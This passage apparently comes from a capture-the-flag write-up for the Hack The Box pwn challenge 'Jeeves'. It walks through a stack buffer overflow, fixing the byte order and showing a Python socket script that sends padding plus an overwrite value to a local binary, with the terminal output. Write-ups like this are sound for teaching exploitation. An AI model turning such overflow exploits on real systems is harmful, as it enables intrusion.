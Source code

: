 Next we'll run the script and check that the memory has been properly written in EDB. 

![](images/Pasted%20image%2020210922203251.png){ width=250px}

Looking at the contents of the stack, our offset is correct, but the order of the bytes is backwards. This is due to the endianness of the system. The solution to this program is to simply invert the order of the bytes in our payload. 

```python
import socket
host = '127.0.0.1'
port = 31183

padding = b'A'*60

cmp = b'\x13\x37\xba\xb3'

buffer = padding + cmp

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```

Now when we run the script we get a different output. 

```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ nc -nvlp 31183 | setarch `uname -m` -R ./jeeves
listening on [any] 31183 ...
Hello, good sir!
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35870
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```
